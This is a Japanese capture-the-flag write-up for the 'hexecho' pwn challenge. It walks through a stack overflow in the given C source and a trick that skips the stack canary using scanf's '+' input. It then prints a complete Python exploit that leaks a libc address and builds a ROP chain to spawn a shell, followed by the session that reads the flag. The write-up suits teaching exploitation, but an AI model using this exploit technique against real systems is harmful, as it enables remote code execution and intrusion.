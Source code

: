 # hexecho:Pwn:179pts
Stack canary makes me feel more secure.  

[hexecho.tar.gz](hexecho.tar.gz)  

`nc 34.170.146.252 51786`  

# Solution
ソースと接続先が渡される。  
```bash
$ nc 34.170.146.252 51786
Size: 3
Data (hex): aabbcc
Received: aa bb cc
```
`Size`と`Data (hex)`を受け取り、受け取った値を`Received`としてHexで返している。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

int get_size() {
  int size = 0;
  scanf("%d%*c", &size);
  return size;
}

void get_hex(char *buf, unsigned size) {
  for (unsigned i = 0; i < size; i++)
    scanf("%02hhx", buf + i);
}

void hexecho() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data (hex): ");
  get_hex(buf, size);

  // Show data
  printf("Received: ");
  for (int i = 0; i < size; i++)
    printf("%02hhx ", (unsigned char)buf[i]);
  putchar('\n');
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  hexecho();
  return 0;
}
```
`Size`の制限が無いため、BOFし放題である。  
セキュリティ機構をチェックする。  
```bash
$ checksec --file=./hexecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   43 Symbols      N/A     0               0               ./hexecho
```
canaryがあるためリークを考えるが、読み取れそうな場所はない。  
ここで`scanf`に`+`を渡した際に、その個所のバッファには何も書き込まれず元の値が保持されるという挙動を思い出す。  
これでcanaryをスキップし、それ以降のリターンアドレスのみ書き換えてROPしてやればよさそうだ。  
さらに、`Size`を使い果たすより前にHexでない文字で入力を終了すると、それ以降のバッファが流れ出ることもわかる。  
```bash
$ ./hexecho
Size: 20
Data (hex): aabbccs
Received: aa bb cc 00 00 00 00 00 0c 00 00 00 00 00 00 00 40 00 00 00
```
これでスタック上にあるlibcのアドレスもリークできそうだ。  
うまくオフセットを調整し、`main`にもう一度飛ばすことで`__libc_start_main+128`からリークしたアドレスでROPする(アライメントに注意)。  
以下のexploit.pyで行う。  
```python
from ptrlib import *

elf = ELF("./hexecho")

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")

# sock = Process("./hexecho")
sock = Socket("nc 34.170.146.252 51786")
# sock.debug = True


def hexecho(n):
    hexstr = hex(n)[2:].zfill(16)
    return "".join([hexstr[i : i + 2] for i in range(0, len(hexstr), 2)][::-1]).encode()


payload = b"A" * 0x210
payload += b"+" * 0x9
payload += b"B" * 0xF
payload += hexecho(next(elf.gadget("ret;")))
payload += hexecho(elf.symbol("main"))
payload += b"s"
sock.sendlineafter("Size: ", 0x1000)
sock.sendlineafter("Data (hex): ", payload)

leak = int("".join((sock.recvline()[0x562:0x573]).decode().split()[::-1]), 16)
logger.info("__libc_start_main+128 = " + hex(leak))
libc.base = leak - libc.symbol("__libc_start_main") - 0x80

payload = b"A" * 0x210
payload += b"+" * 0x9
payload += b"B" * 0xF
payload += hexecho(next(libc.gadget("pop rdi; ret;")))
payload += hexecho(next(libc.search("/bin/sh")))
payload += hexecho(next(libc.gadget("ret;")))
payload += hexecho(libc.symbol("system"))
payload += b"s"
sock.sendlineafter("Size: ", 0x1000)
sock.sendlineafter("Data (hex): ", payload)
sock.recvline()

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to 34.170.146.252:51786
[+] <module>: __libc_start_main+128 = 0x7f5d61c3ce40
[+] base: New base address: 0x7f5d61c13000
[ptrlib]$ ls
run
[ptrlib]$ ls /
app
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[ptrlib]$ cat /flag.txt
Alpaca{4Lw4y5_cH3cK_1f_a_fuNc71on_f4iL3d}
```
flagが得られた。  

## Alpaca{4Lw4y5_cH3cK_1f_a_fuNc71on_f4iL3d}